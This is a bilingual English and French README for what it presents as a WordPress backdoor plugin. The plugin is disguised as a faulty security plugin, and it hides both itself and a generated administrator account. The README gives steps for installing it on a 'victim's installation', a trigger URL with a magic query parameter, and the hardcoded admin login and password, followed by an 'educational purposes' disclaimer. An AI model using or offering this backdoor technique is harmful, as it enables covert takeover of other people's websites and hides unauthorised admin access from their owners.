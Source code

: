 This WordPress plugin allows you to create an invisible backdoor on the victim's installation.
Disguised as a faulty security plugin, the administrator account generated as well as the plugin will not be listed and will be invisible to the eyes of regular users.

1 - Install the extension on the victim's installation and activate it.
2 - Visit this URL to create the admin account "example.com?5394552785=BACKDOOR".
3 - Login : Hacked_By_LESiO
4 - Password : 1TSN0TWYR3VLPV55M0RD
Congratulations, you are admin

> I am in no way responsible for your actions with this program. This program is shared with you for educational purposes. Use it with care and do not use it for malicious purposes.

-------------------------------------------------------------------------------------

Cette extension WordPress vous permet de créer une backdoor invisible sur l'installation de la victime.
Déguisé en extension de sécurité défaillante, le compte administrateur généré ainsi que l'extension ne seront pas répertoriés et seront invisibles aux yeux d'utilisateurs classiques.

1 - Installez l'extension sur l'installation de la victime et activez-la.
2 - Visitez cette URL pour créer le compte administrateur "example.com?5394552785=BACKDOOR".
3 - Nom d'utilisateur : Hacked_By_LESiO
4 - Mot de passe : 1TSN0TWYR3VLPV55M0RD
Félicitations, vous êtes administrateur

> Je ne suis en aucun cas responsable de vos actions avec ce programme. Ce programme est partagé avec vous à des fins éducatives. Utilisez-le avec précaution et ne l'utilisez pas à des fins malveillantes.
